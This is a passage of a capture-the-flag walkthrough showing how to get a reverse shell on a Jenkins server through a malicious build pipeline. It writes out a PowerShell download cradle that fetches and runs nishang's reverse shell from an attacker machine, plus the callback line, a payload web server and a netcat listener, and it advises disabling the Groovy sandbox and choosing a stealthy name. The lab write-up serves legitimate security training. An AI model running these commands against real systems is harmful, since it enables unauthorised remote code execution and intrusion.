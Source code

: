 The first step for executing a custom script in Jenkins is to navigate to the new item dialog where we can create new object (including a build pipeline):

![Creating a New Item in Jenkins](attachments/Pasted image 20220628182229.png)

We then must choose to create a new pipeline and give it a name (in this case, we just use ReverseShell, but a more difficult to detect name would typically be recommended):

![Creating a Build Pipeline in Jenkins](attachments/Pasted image 20220628182503.png)
We then scroll down to the pipeline pane in the next dialog and enter the malicious script. In this case, we will use a powershell download cradle to retrieve a reverse shell payload from our attacking machine and execute it. We must also uncheck the "Use Groovy Sandbox" option to prevent our payload from being sandboxed:

![Inserting the reverse shell payload into the Jenkins pipeline](attachments/Pasted image 20220628182808.png)
We will use the following payload (as shown in the image above) to gain a reverse shell on the machine. This payload will call out to a powershell reverse shell provided by the nishang framework (https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1):
```text
node {
   powershell("whoami")
   powershell("IEX(New-Object Net.WebClient).downloadString('http://10.10.14.20:8000/Invoke-PowerShellTcp.ps1')")
}
```

Before we can execute the payload to get a reverse shell, we must modify the Invoke-PowerShellTcp.ps1 script. The new modification will cause the script to actually call back with a reverse shell, rather than just defining the Invoke-PowerShellTcp cmdlet. The line to be added to the end of the file is the following: `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443`

Now that we have our reverse shell prepared, we can serve the reverse shell script on a python web server. This web server will send the reverse shell payload back to the target machine when the Jenkins payload executes. To create the python web server, we can use the following command from the directory containing the reverse shell script (this command will serve the payload on port 8000 by default): `python3 -m http.server`

![Starting a python web server](attachments/Pasted image 20220628200415.png)
The last step to prepare for payload execution is to start a listener that will catch our reverse shell. We can create this listener using netcat with the following command: `nc -nlvp 443`

In order to trigger our payload, we must simply run the build pipeline in Jenkins. We can run the build pipeline by clicking the "Build Now" option on ReverseShell build pipeline page:

![Triggering the reverse shell payload with "Build Now"](attachments/Pasted image 20220628200832.png)

Once we have pressed the "Build Now" button in Jenkins, we will see that we have received a reverse shell prompt on our netcat listener. This shell is running as the kohsuke user:

![Catching the reverse shell after payload execution](attachments/Pasted image 20220628201020.png)

We can now navigate to the kohsuke user's Desktop directory, where we are able to print the user flag:
